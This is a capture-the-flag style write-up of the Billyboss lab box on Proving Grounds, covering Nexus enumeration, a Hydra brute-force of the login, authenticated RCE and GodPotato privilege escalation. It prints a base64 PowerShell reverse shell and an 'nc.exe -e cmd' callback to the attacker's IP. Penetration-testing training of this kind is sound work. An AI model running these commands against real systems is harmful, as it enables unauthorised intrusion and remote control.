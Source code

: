 ```yaml
---
layout: writeup
title: Billyboss - Proving Grounds
date: 2024-07-29 13:32:20 +0300
description: A Writeup of the Billyboss Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, LainKusunagi, Hydra]
---
```


Here's a writeup for Roquefort, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Very Hard. Terrifying. Let's get started with an nmap scan which shows:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: BaGet
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8081/tcp  open  http          Jetty 9.4.18.v20190429
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-title: Nexus Repository Manager
|_http-server-header: Nexus/3.21.0-05 (OSS)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

There's a lot to to work with here. It looks like we have two web ports - 80 and 8081 - so I start directory scans for those in the background and check out ports 21 and 445 for low hanging fruit. Unfortunately I can not log into FTP on port 21 with anonymous credentials or blank credentials into SMB for port 445. I also try rpcclient, but I can't get anything there either except the domain name (billyboss). So we'll focus on the web ports for now. 

![Billyboss1.png](/assets/images/Billyboss/Billyboss1.png){: .responsive-image}

Port 80 looks like a package manager called BaGet. I don't see anything interesting in my directory scan, and can't find anywhere to log in or check credentials. I do see that there appears to be some way to upload packages, but I'm not familiar with the .nupkg file type or what I might be able to do with such an upload, and I can't find any noteworthy public exploits, so I pause on that for the time being and move to port 8081. 

![Billyboss2.png](/assets/images/Billyboss/Billyboss2.png){: .responsive-image}

This looks like a repository manager called Sonatype Nexus. We see a sign in page right off the bat. I make a few quick attempts at signing in but nothings. I even find that apparently the default password is `password123`. Oh well. Fortunately we do see that there are some juicy public exploits.

![Billyboss3.png](/assets/images/Billyboss/Billyboss3.png){: .responsive-image}

This one should be pretty good given that it's the same version. Unfortunately it's authenticated, so we'll still need to find a way to sign in. (It suggests admin:password, and we already know that doesn't work). At this point, I keep looking around for a while, but there's really nothing else to try on the other ports, and some quick research on BaGet is still steering me away from the application on port 80. Full disclosure, I had at this point also found some newer exploits for [Sonatype Nexus](https://github.com/Praison001/CVE-2024-4956-Sonatype-Nexus-Repository-Manager)but stayed away from them because they were CVE-2024's, and the box came out in 2020. 

Having recently leared about `cewl`, a wordlist generator, it made sense to give that a shot to try and create user and password lists. I run `cewl --lowercase -m 5 http://192.168.198.61:8081/` and get this output:

```
nexus
repository
manager
loading
image
static
rapture
resources
favicon
product
spinner
browse
history
admin
password
password123
```

I added the last three words based on previous info. At that point, I start Burp and make a request to sign in using admin:password123.

![Billyboss4.png](/assets/images/Billyboss/Billybos4.png){: .responsive-image}

Unfortunately, it looks like the credentials are being base64 encoded, so we'll have to deal with that when we start brute forcing. Apparently that can be done from within the Hydra command by appending 64 to the variables like so: `^USER64^`. Ultimately the full command is:
`hydra -L billyboss.cewl -P billyboss.cewl -s 8081 192.168.198.61 http-post-form '/service/rapture/session:username=^USER64^&password=^PASS64^:Incorrect'`

And we get a hit of nexus:nexus.

![Billyboss5.png](/assets/images/Billyboss/Billyboss5.png){: .responsive-image}

*Note: In looking at writeups later on, it is also possible to find nexus:nexus suggested in `seclists` by navigating to the correct directory and using `grep -r 'Sonatype`.* 

So we add this to the previously discovered exploit, and run it. 
![Billyboss6.png](/assets/images/Billyboss/Billyboss6.png){: .responsive-image}

And then after failing to do anything with it, I really you need to change the CMD variable as well. So I change the CMD to `powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEAOAAzACIALAA4ADAAOAAx...` a base64 encoded powershell reverse shell generated from [revshells](revshells.com). 

![Billyboss7.png](/assets/images/Billyboss/Billyboss7.png){: .responsive-image}

And we're in. And at first glance, we have some pretty exciting privileges, namely SeImpersonatePrivilege. 

![Billyboss8.png](/assets/images/Billyboss/Billyboss8.png){: .responsive-image}

Unfortunately I can't seem to get any of my potato attacks working, and I also have some trouble downloading and executing the usual enumeration powershell scripts or winpeas. Eventually I get winpeas working though, and I can see a couple of exploits pretty quickly. 

![Billyboss9.png](/assets/images/Billyboss/Billyboss9.png){: .responsive-image}

I also considered that the lab did come out in 2020, so it's certainly possible that these exploits already existed and are part of the intended path. Plus winpeas conveniently includes the github for one of them called [smbghost](https://github.com/danigargu/CVE-2020-0796), so I decide to try that one first. I copy it to the machine and run it. 

![Billyboss10.png](/assets/images/Billyboss/Billyboss10.png){: .responsive-image}

It runs, but it doesn't seem to work. I actually spent a while trying to get variations of this CVE to work, but none of them did, even when I copied them directly from elsewhere. I'm not exactly sure why. At least [one option](https://github.com/Barriuso/SMBGhost_AutomateExploitation) gave the option to inject your own shellcode, but I didn't get this working. I also saw [this video](https://www.youtube.com/watch?v=a0Vf8VLgzhc) which involved editing some of the files and building the exploit, but given that I am working from an ARM machine, this didn't seem practical. 

Ultimately I went back to a Potato attack. `.\GodPotato.exe -cmd "cmd /c nc.exe 192.168.45.183 8081 -e cmd"`

![Billyboss11.png](/assets/images/Billyboss/Billyboss11.png){: .responsive-image}

As you can see, the whoami command doesn't seem to work, but clearly we have Administrator privileges given that we are on the Administrator Desktop and are able to view the proof.txt file. I suspect the reason that my previous attempts with the Potato attacks didn't work because I failed to properly quote the full path of nc.exe or something. In this final case I simply transferred the binary over by itself so there were no issues. 

It's interesting, now that we know what we know regarding the SeImpersonatePrivilege, we could probably have created one script to download GodPotato and nc.exe and even executed it from the initial Sonatype Nexus command without even ever getting a console on the target. 

Lessons learned: To be honest, I've been working on Linux Privesc for the last couple of weeks, so it was a nice refresher to get back into Windows. That said, this box would have gone much faster by simply finding the default credentials faster and being more careful with the Potato attacks. I could have run `grep -r Sonatype /usr/share/seclists` for example to find `nexus:nexus`, and I've added that to my notes. Beyond that, I'm not sure a ton was learned. 

Remediation steps:
1. Change the credentials for the Sonatype Nexus web application
2. Patch the Sonatype Nexus application
3. Disable the `SeImpersonatePrivilege` for the `nathan` user on the Billyboss machinec